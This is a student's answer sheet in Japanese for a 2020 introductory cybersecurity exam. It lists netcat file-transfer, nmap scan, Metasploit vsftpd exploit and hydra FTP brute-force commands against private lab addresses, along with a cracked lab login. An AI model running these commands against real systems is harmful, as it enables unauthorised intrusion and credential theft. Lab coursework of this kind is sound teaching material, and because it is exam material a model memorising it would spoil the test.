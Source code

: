 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
nc -lvp 5555
```
#### クライアント側コマンド

```sh
nc 192.168.33.12 5555
```
### 1.
#### サーバー側コマンド

```sh
# nc -l 5555 < filename
```
#### クライアント側コマンド

```sh
# nc 192.168.33.11 5555 > filename
```

## 問2 [Password Crack]

### 1.
```md
<!--omas:itcollege-->

```

### 2.
```md
<!--omas: -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
 nmap -sP 192.168.30.0-127
```

### 2. version scan
```sh
 nmap -sV -p- 192.168.33.12

```

## 問4 [Metasploit Framework]

```sh
msfconsole
show options 
set RHOST 192.168.33.12
search vsftpd
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
hydra -L user.list -P passwd.list -t 64 192.168.33.12 ftp

```

### 2. 解析結果

```sh
[21][ftp] host:192.168.33.12 login:msfadmin password:msfadmin
```

## 問6 [Packet Sniffer]

```sh
ip.addr==192.168.33.12&&http

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!-- 50  -->

```

## 問9 [講義の感想]

1.

```md
<!-- 難しいところも多くあったけれどもハッキングは楽しいことが多く有意義だった。  -->

```

2.
```md
<!--  ここに回答を記述 -->

```

